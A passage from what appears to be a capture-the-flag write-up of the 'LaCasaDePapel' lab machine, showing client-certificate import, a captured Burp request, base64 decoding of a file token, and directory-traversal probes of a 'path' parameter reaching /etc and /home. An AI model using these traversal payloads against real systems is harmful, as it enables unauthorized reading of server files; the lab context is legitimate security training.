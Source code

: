 ![image.png](lacasadepapel%20279068bbc57d8058a14ef9ab005479e3/image%209.png)

Now click import and upload the .p12 cert to Your Certificates:

![image.png](lacasadepapel%20279068bbc57d8058a14ef9ab005479e3/image%2010.png)

Now visit the https page again:

![image.png](lacasadepapel%20279068bbc57d8058a14ef9ab005479e3/image%2011.png)

We can click on the seasons and click a file to download. Capture the request with burp:

![image.png](lacasadepapel%20279068bbc57d8058a14ef9ab005479e3/image%2012.png)

```bash
GET /file/U0VBU09OLTIvMDUuYXZp HTTP/1.1
Host: 10.10.10.131
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://10.10.10.131/?path=SEASON-2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

```

We also realise the encoding used for the file is just base64:

```bash
echo 'U0VBU09OLTIvMDUuYXZp' | base64 -d
SEASON-2/05.avi
```

In the URL we see a path parameter; let’s see if it’s vulnerable to LFI:

```bash
https://10.10.10.131/?path=/etc/
```

![image.png](lacasadepapel%20279068bbc57d8058a14ef9ab005479e3/image%2013.png)

Looks like it’s using scandir in the backend. 

```bash
https://10.10.10.131?path=../../../../../home
```

![image.png](lacasadepapel%20279068bbc57d8058a14ef9ab005479e3/image%2014.png)
